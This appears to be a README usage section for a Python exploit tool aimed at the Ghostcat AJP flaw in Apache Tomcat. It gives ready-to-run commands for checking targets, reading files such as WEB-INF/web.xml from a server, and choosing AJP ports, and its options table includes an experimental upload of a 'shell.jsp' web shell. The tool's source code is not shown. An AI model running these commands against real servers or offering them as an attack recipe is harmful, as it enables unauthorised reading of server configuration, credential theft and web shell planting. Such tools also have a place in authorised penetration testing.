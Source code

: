 ## Usage

### Basic Vulnerability Check
```bash
python3 ghostcat_exploit.py -t https://target.example.com -c
```

### Read Specific File
```bash
python3 ghostcat_exploit.py -t https://target.example.com -f WEB-INF/web.xml
```

### Custom AJP Port
```bash
python3 ghostcat_exploit.py -t https://target.example.com -p 8010 -c
```

### Verbose Output
```bash
python3 ghostcat_exploit.py -t https://target.example.com -v -c
```

## Command Line Options

| Option | Description | Example |
|--------|-------------|---------|
| `-t, --target` | Target URL (required) | `https://example.com` |
| `-p, --port` | AJP port (default: 8009) | `-p 8010` |
| `-f, --file` | File to read from target | `-f WEB-INF/web.xml` |
| `-c, --check` | Only check vulnerability | `-c` |
| `-v, --verbose` | Enable verbose output | `-v` |
| `-u, --upload` | File to upload (experimental) | `-u shell.jsp` |
| `-d, --data` | Data for uploaded file | `-d "shell content"` |

## Examples

### 1. Quick Vulnerability Scan
```bash
python3 ghostcat_exploit.py -t http://vulnerable-tomcat.com -c
```

### 2. Read Web Application Configuration
```bash
python3 ghostcat_exploit.py -t http://vulnerable-tomcat.com -f WEB-INF/web.xml -v
```
